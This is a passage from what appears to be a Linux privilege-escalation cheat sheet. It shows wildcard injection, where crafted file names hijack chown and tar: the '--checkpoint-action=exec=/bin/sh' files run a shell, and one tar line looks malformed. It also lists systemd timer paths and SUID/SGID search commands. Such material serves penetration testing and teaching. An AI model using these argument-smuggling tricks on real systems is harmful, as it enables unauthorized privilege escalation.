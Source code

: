 ```bash
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt

# Let's connect as root and decide that ALL files within the directory
# should belong to the user and group root
root@kali:/example# chown -R root:root * 2>/dev/null

# And we can see that it took the "--reference=.thomas.txt" via the '*' and assigned all the files to the user kali
root@kali:/example# ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt
```

This works with chmod as well.

#### Tar arbitrary command execution

You can do the same with tar.

```bash
touch -- --checkpoint=1 # Create a file named --checkpoint=1
touch -- --checkpoint-action=exec=/bin/sh # Create a file named --checkpoint-action=exec=/bin/sh
--checkpoint=1 --checkpoint-action=action=exec=sh shell.sh # Perform shell.sh every file it go through
```

### Timers

Timers are systemd unit files whose name ends in . timer that control . service files or events. Timers can be used as an alternative to cron.

Timers are systemd unit files with a suffix of .timer. Timers are like other unit configuration files and are loaded from the same paths but include a [Timer] section which defines when and how the timer activates.

```bash
systemctl list-timers --all
```

Privileged timers are written to **/etc/systemd/system/** and **/usr/lib/systemd/system** while user level are written to **~/.config/systemd/user/**

```bash
# /etc/systemd/system/
ls -la /etc/systemd/system/
find /etc/systemd/system/ -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /etc/systemd/system/ -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# /usr/lib/systemd/system
ls -la /usr/lib/systemd/system
find /usr/lib/systemd/system -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /usr/lib/systemd/system -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# ~/.config/systemd/user/
ls -la ~/.config/systemd/user/
```
